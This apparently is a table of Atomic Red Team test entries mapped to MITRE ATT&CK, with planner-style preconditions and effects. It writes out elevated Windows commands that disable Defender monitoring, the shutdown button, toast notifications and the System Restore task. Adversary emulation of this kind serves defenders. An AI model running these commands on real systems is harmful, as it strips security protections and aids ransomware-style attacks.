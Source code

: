 | 6b8df440-51ec-4d53-bf83-899591c9b5d7 | Tamper with Windows Defender ATP PowerShell | \['T1562.001'\] | ART | \['windows'\] | \['Defense Evasion'\] | \['Impair Defenses: Disable or Modify Tools'\] | Attempting to disable scheduled scanning and other parts of windows defender atp. Upon execution Virus and Threat Protection will show as disabled<br>in Windows settings.<br> | {'executor': 'Elevated Powershell Executor', 'command': 'Set-MpPreference -DisableRealtimeMonitoring 1\nSet-MpPreference -DisableBehaviorMonitoring 1\nSet-MpPreference -DisableScriptScanning 1\nSet-MpPreference -DisableBlockAtFirstSeen 1\n'} | None | \['(powershell ?executor - executor ?target - host)', '(elevated_executor ?executor - executor)', '(os_windows ?target - host)'\] | \['(virus_and_threat_protection_disabled ?target - host)'\] |
| 6e0d1131-2d7e-4905-8ca5-d6172f05d03d | Disable Windows Shutdown Button | \['T1112'\] | ART | \['windows'\] | \['Defense Evasion'\] | \['Modify Registry'\] | Modify the registry of the currently logged in user using reg.exe via cmd console to disable the windows shutdown button.<br>See how ransomware abuses this technique- https://www.trendmicro.com/vinfo/us/threat-encyclopedia/malware/ransom.msil.screenlocker.a/<br> | {'executor': 'Elevated Command Prompt Executor', 'command': 'reg add "HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System" /v shutdownwithoutlogon /t REG_DWORD /d 0 /f\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(elevated_executor ?executor - executor)', '(os_windows ?target - host)'\] | \['(shutdown_button_disabled ?target - host)'\] |
| 003f466a-6010-4b15-803a-cbb478a314d7 | Disable Windows Toast Notifications | \['T1112'\] | ART | \['windows'\] | \['Defense Evasion'\] | \['Modify Registry'\] | Modify the registry of the currently logged in user using reg.exe via cmd console to disable the windows toast notification.<br>See how azorult malware abuses this technique- https://app.any.run/tasks/a6f2ffe2-e6e2-4396-ae2e-04ea0143f2d8/<br> | {'executor': 'Elevated Command Prompt Executor', 'command': 'reg add HKEY_CURRENT_USER\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\PushNotifications /v ToastEnabled /t REG_DWORD /d 0 /f\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(elevated_executor ?executor - executor)', '(os_windows ?target - host)'\] | \['(toast_notification_disabled ?target - host)'\] |
| 1c68c68d-83a4-4981-974e-8993055fa034 | Windows - Disable the SR scheduled task | \['T1490'\] | ART | \['windows'\] | \['Impact'\] | \['Inhibit System Recovery'\] | Use schtasks.exe to disable the System Restore (SR) scheduled task<br> | {'executor': 'Elevated Command Prompt Executor', 'command': 'schtasks.exe /Change /TN "\\Microsoft\\Windows\\SystemRestore\\SR" /disable\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(elevated_executor ?executor - executor)', '(os_windows ?target - host)'\] | \['(system_restore_disabled ?target - host)'\] |